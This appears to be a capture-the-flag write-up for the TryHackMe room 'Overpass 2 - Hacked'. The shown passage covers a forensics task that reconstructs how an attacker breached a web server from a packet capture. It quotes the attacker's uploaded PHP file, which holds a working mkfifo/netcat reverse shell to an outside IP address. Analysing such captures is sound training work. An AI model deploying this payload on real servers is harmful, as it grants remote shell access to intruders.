 # Overpass 2 - Hacked

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

[Overpass 2 - Hacked](https://tryhackme.com/room/overpass2hacked)

## Topic's

* Network Forensic
* Code Injection
* Cryptography
* Brute Forcing (Hash)
* Reverse Engineering (Go)
* Misconfigured Binaries

## Task 1 Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

Can you work out how the attacker got in, and hack your way back into Overpass' production server?

Note: Although this room is a walkthrough, it expects familiarity with tools and Linux. I recommend learning basic Wireshark and completing [CC: Pentesting](https://tryhackme.com/room/ccpentesting) and [Learn Linux](https://tryhackme.com/room/zthlinux) as a bare minimum.

**md5sum** of PCAP file: `11c3b2e9221865580295bc662c35c6dc`

1. What was the URL of the page they used to upload a reverse shell?

![](2020-10-05_18-02_1.png)

`/development/`

3. What payload did the attacker use to gain access?

```
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"
Content-Type: application/x-php

<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```
